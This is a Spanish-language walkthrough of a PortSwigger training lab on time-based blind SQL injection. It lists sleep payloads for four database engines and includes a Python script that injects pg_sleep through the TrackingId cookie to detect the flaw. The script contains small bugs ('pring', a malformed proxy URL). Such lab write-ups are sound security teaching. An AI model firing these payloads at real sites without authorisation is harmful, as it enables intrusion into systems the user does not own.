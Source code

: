 ```yaml
---
title: "13 Blind SQL injection with time delays"
collection: publications
category: portswigger
permalink: publications/SQLi/13_Blind SQL injection with time delays
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. Para resolver el laboratorio, explotamos la vulnerabilidad de inyección SQL basada en el tiempo para provocar un retraso de 10 segundos.'
date: 2024-12-02
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind SQL injection with time delays'
---
```


![logo]({{site.url}}/images/SQLi/sqli-13/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-13/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, explota la vulnerabilidad de inyección SQL para provocar un retraso de 10 segundos.

## Analisis del campo vulnerable

En esta ocación vamos a probar el `TrackingId` si es vulnerable a Blind SQLi basado en tiempo. Necesitamos averiguar que Motor de BD es. Y vemos que es un `PostgreSQL`

![Cheat]({{site.url}}/images/SQLi/sqli-13/cheat.png)

```sql
' || (SELECT pg_sleep(10))--                                -> Payload para BD PostgreSQL   ✅
' || (SELECT sleep(10))--                                   -> Payload para BD MySQL   ❌
' || (SELECT dbms_pipe.receive_message(('a'), 10))--        -> Payload para BD Oracle   ❌
' || WAITFOR DELAY '0:0:10'--                               -> Payload para BD SQL Server   ❌
```

![Tiempo]({{site.url}}/images/SQLi/sqli-13/tiempo.png)

## Aprobado

![Aprobado]({{site.url}}/images/SQLi/sqli-13/aprobado.png)

# Codigo Python

```python

import sys
import requests
import urllib3
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http:127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def blind_sqli_check(url):
    sqli_payload = "' || (SELECT pg_sleep(10))--"
    sqli_payload_encoded = urllib.parse.quote(sqli_payload)
    cookies = {'TrackingId': 'fY3mWGvtddfW37rS' + sqli_payload_encoded, 'session': '3tjAqEsmAUv1oSufDDKMp8Dpr9LKqwcd'}
    r = requests.get(url, cookies=cookies, verify=False, proxies=proxies)
    if int(r.elapsed.total_seconds()) > 10:
        print("(+) Vulnerable to blind-based SQL injection")
    else:
        print("(-) Not vulnerable to blind based SQL injection")


def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        pring("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Checking if tracking cookie is vulnerable to time-based blind SQLi....")
    blind_sqli_check(url)

if __name__ == "__main__":
    main()

```